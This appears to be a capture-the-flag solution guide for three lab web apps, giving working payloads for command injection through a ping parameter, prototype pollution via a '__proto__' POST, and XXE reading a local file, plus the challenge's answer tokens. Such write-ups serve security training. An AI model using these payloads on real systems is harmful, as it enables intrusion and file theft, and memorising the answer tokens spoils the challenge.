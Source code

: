 # Oh My API

*Solution Guide*

## Question 1

*What is the value of the token found in the `token1` file, located at `/home/user/p1/token1` (the same folder as the webserver) on `app1` at `10.5.5.101:8080`.*

1. Analyze the `app1.js.snippet` file in the `hosted_files` directory. Notice the usage of `exec` making this possibly vulnerable to command injection.

```js
...
function controller(req, res) {
    const output = execSync(...);
    res.status(200).send(output);
}
...
```

![Analyzing app1.js.snippet file](./img/c29.01.01.png "Analyzing app1.js.snippet file")

2. Navigate to the web server at `10.5.5.101:8080`. You will see several links that will perform system functions including

![Navigating to app1 web server](./img/c29.01.02.png "Navigating to app1 web server")

3. If you click on the "Ping Test" you will find that this is the only endpoint that takes in an argument (`/ping`)

![Ping Test endpoint on app1](./img/c29.01.03.png "Ping Test endpoint on app1")

4. Craft a custom HTTP request to perform a command injection attack by inserting a bash command into the `?ip` parameter. Start with a simple `ls` to confirm successful exploit

`http://10.5.5.101:8080/ping?ip=127.0.0.1 -c 1 > /dev/null; ls; echo`

The command the server executes looks like this:

```js
"ping ${req.query.ip} -c 1"
```

Note that the command injection attack must first terminate the existing ping command (i.e. `127.0.0.1 -c 1 > /dev/null;`), that can be followed by the malicious command (i.e. `ls;`), and then the attack must handle the remainder of the server's exec command without erroring (i.e. `echo`)

The final command that is executed by the server looks like this:

```js
"ping 127.0.0.1 -c 1 > /dev/null; ls; echo -c 1"
```

![Command injection attack on Ping Test](./img/c29.01.04.png "Command injection attack on Ping Test")

5. Identify the `token1` file shown in the result of the `ls` in the previous step. Update the URL for the command injection attack to print out the contents of `token1`

`http://10.5.5.101:8080/ping?ip=127.0.0.1 -c 1 > /dev/null; cat token1; echo`

![Retrieving token1 via command injection](./img/c29.01.05.png "Retrieving token1 via command injection")

In this example, the value of token1 is "496a26fa6cfba6bd"

See [./p1.sh](./p1.sh) for the solve code.

## Question 2

*What is the value of the token you receive by running the Grading Check at `challenge.us` after you are able to create a new user on `app2` at `10.5.5.102:8081` with a `userId` of `1337` that has admin permissions.*

1. Analyze the `app2.js.snippet` file in the `hosted_files` directory. Notice that there is an explicit check that will error if the `isAdmin` field is `true`. However, the application attempts to perform a lookup on the provided `userId` and appears to be merging the existing user data with the supplied payload, which could be a potential attack vector. 

```js
...
router.post('/set', (req, res) => {
    const payload = JSON.parse(req.body);
    if (!payload.userId) throw new Error('User ID is required');
    if (payload.isAdmin) throw new Error('Cannot create new admin users');
    const user = userStore[payload.userId] || payload;
    ...
    res.status(200).send('User successfully updated');
});
...
```

2. Navigate to the web server at `10.5.5.102:8081` and explore the different features

![](./img/c29.02.02a.png)

By clicking on the "List Users" link, you can get a full user listing and see that there is an existing user with an id of `1234` that has admin permissions. 

![](./img/c29.02.02b.png)

You can then use the "Check if a user is admin or not" form to explicitly check if this user, which it is.

![](./img/c29.02.02c.png)

Now, try to create a new user using the "Create or update a user" form and view the HTTP request that is sent using the browser developer tools.

![](./img/c29.02.02d.png)

You can see that the `isAdmin` field is set to `false` by default, even though that is not a field that is specified explicitly by the form. 

3. Attempt to create a custom HTTP POST request that sets `isAdmin` to `true`

```js
fetch('/set', {
    method : 'POST',
    headers : {
        'Content-Type' : 'application/json'
    },
    body : JSON.stringify({ isAdmin : true, name : "Test", userId : "1337" })
})
.then(response => response.text())
.then(data => alert(data.toString()))
.catch(error => alert('Error: ', error.toString()))
```

![](./img/c29.02.03.png)

When this custom HTTP POST request is executed, an error is returned from the server saying, "Cannot create new admin users". This indicates that another attack vector must be considered. 

4. If you search for "javascript merge vulnerabilities" you should see documentation about [prototype pollution](https://portswigger.net/web-security/prototype-pollution). Effectively, the `__proto__` field is used to specify default values for an object. The vulnerability can be exploited by using the `__proto__` field to set the default value of `isAdmin` to `true`. 

5. Craft a custom HTTP request that sets the `__proto__` field to `{ "isAdmin" : true }`. This will bypass the `isAdmin` check, but still set the `isAdmin` value to false when the data is merged. 

```bash
IP=10.5.5.102
PORT=8081

# Create User
curl -X POST \
  -H "Content-Type: application/json" \
  -d '{ "__proto__" : { "isAdmin" : true }, "userId" : 1337, "name" : "User 1" }' \
  http://$IP:$PORT/set
```

6. Visit the website and use the "Check is Admin" button to verify that the exploit was successful. 

![](./img/c29.02.06.png)

7. After verifying that the exploit was successful, visit the grading sever at `challenge.us` to run the grading check and obtain the token. 

![](./img/c29.02.07.png)

In this example, the token2 is "c83ce890558c5b1a"

See [./p2.sh](./p2.sh) for the solve code

## Question 3

*What is the value of the token found in the `token3` file, located at `/home/user/p3/token3` (the same folder as the webserver) on `app3` at `10.5.5.103:8082`.*

1. Analyze the `app3.js.snippet` file in the `hosted_files` directory. Notice that XML is a supported content type, making the endpoint potentially vulnerable to an XXE file inclusion attack. 

```js
...
router.post('/stockCheck', async (req, res) => {
    if (req.headers.contentType === 'application/x-www-form-urlencoded') {
        ...
    } else if (req.headers.contentType === 'text/xml' || req.headers.contentType === 'application/xml' ) {
        ...
    } else {
        res.status(400).send('Unsupported content type');
    }
});
...
```

2. Navigate to the web server at `10.5.5.103:8082`. 

![](./img/c29.03.02.png "Navigating to app3 web server")

3. Open the developer tools to check what the payload is when performing a `stockCheck` request

The payload is just `productId : "1"`

![](./img/c29.03.03.png "Inspecting stockCheck payload on app3")

4. Craft an equivalent request using an XML content type instead. Verify that the server responds normally. 

```bash
IP=10.5.5.103
PORT=8082

curl --request POST \
    --url http://$IP:$PORT/stockCheck \
    --header 'Content-Type: application/xml' \
    --data '<?xml version="1.0" encoding="UTF-8"?>
<productId>1</productId>'
```

![](./img/c29.03.04.png "Sending stockCheck request with XML payload")

5. Modify the request to include an XXE attack. 

Create an xxe entity with a filepath that matches the location specified in the prompt, `/home/user/p3/token3`.

```bash
IP=10.5.5.103
PORT=8082

curl --request POST \
    --url http://$IP:$PORT/stockCheck \
    --header 'Content-Type: application/xml' \
    --data '<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file://home/user/p3/token3"> ]>
<productId>&xxe;</productId>'
```

![](./img/c29.03.05.png "Performing XXE attack to retrieve token3")

In this example, the value of token3 is "347e9d17fe7ca082"

See [./p3.sh](./p3.sh) for the solve code